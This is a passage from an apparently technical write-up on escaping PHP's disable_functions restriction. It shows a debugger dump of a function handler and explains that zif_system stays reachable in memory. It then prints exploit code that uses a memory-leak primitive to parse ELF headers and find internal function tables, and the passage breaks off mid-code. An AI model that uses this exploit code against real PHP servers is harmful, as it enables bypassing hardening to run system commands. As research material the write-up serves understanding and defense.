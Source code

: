 ```
  scope = 0x0,
  prototype = 0x0,
  num_args = 0,
  required_num_args = 1,
  arg_info = 0x0,
  handler = 0x555555baa699 <zif_display_disabled_function>,
  module = 0x555556721730,
  reserved = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Now the handler field is pointing to the display_disabled_function. If you are wondering why the functions have a "zif_" prefix it is because they are created using the [PHP_FUNCTION macro and it expands to a C symbol with the acronym of "Zend Internal Function"](http://www.phpinternalsbook.com/php7/extensions_design/php_functions.html#registering-php-functions).

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This tactic prevents the calls to "dangerous" functions inside the script but... zif_system is not erased from the universe. It still existing in the process and we can reach it if we can play with the memory __:)__.

## When the memory corruption comes handy
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The first thing we need is to found the __zif_system__ location at runtime. For that we need a primitive to leak arbitrary memory contents. The exploit solves this search finding the binary base and then parsing the ELF structures in order to find the target function:

```php
function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
```